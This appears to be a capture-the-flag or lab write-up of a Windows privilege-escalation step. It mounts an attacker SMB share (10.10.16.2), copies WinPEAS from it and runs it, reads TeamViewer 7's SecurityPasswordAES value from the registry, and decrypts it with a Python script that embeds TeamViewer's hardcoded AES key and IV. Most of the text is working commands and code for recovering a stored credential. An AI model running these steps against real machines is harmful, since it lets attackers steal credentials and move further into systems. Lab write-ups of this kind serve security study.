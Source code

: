 {% embed url="https://whynotsecurity.com/blog/teamviewer/" %}

### Local enumeration

* The first thing that I do is run net use and add my SMB server to the target
* Next, I load WinPEAS&#x20;

```
net use \\10.10.16.2\smb
copy \\10.10.16.2\smb\winPEASx64.exe
.\winPEASx64.exe
```

* Unfortunately, I could not find anything
* After enumerating the file system, specifially Program Files (x86), I notice the TeamViewer is installed
* I also noticed that it is running version 7 hence the directory name

Supposedly, we can use this registry key to decrypt the hash:

```
reg query HKLM\SOFTWARE\WOw6432Node\TeamViewer\Version7 /v SecurityPasswordAES
HKEY_LOCAL_MACHINE\SOFTWARE\WOw6432Node\TeamViewer\Version7                                                                                                      
    SecurityPasswordAES    REG_BINARY    FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
```

REG\_BINARY:  <mark style="color:yellow;">FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B</mark>

* We then take the REG\_BINARY and put it in the decryption tool found on GitHub

Decryption code:

```
import sys, hexdump, binascii
from Crypto.Cipher import AES

class AESCipher:
    def __init__(self, key):
        self.key = key

    def decrypt(self, iv, data):
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return self.cipher.decrypt(data)

key = binascii.unhexlify("0602000000a400005253413100040000")
iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")
hex_str_cipher = "FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B"                     # output from the registry

ciphertext = binascii.unhexlify(hex_str_cipher)

raw_un = AESCipher(key).decrypt(iv, ciphertext)

print(hexdump.hexdump(raw_un))

password = raw_un.decode('utf-16')
print(password)
```
